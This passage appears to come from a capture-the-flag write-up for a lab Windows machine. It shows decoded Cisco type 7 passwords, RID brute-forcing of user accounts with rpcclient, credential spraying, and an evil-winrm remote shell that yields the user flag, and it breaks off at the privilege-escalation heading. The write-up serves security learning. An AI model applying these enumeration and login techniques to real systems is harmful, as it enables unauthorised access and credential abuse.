 #### Type 7
```
┌──(kali㉿kali)-[~]
└─$ python3 type7.py 0242114B0E143F015F5D1E161713
$uperP@ssword
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ python3 type7.py 02375012182C1A1D751618034F36415408
Q4)sJu\Y8qz*A3?d
```

## Exploitation 
since smbclient couldnt connect to the server with valid credentials, I connected to the IPC share using rpcclient.
```
┌──(kali㉿kali)-[~]
└─$ rpcclient -U 'hazard%stealth1agent' 10.10.10.149
rpcclient $> ls
```
I then looked up names and hazards SID, with the end number being 1008 it suggests there are more user SIDs around this number.
```
rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
```
This found 4 users on the system
```
┌──(kali㉿kali)-[~]
└─$ for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)
```

after trying to connect with evil-winrm using all combinations of the new usernames and passwords I found earlier, I got a shell with chase.

```┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.10.149 -u Chase                    
Enter Password: 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents> 
```
This gave me the user flag.
```
*Evil-WinRM* PS C:\Users\Chase\Desktop> cat user.txt
1eb2c624432b4431aa66fcdf********
```
## PrivEsc
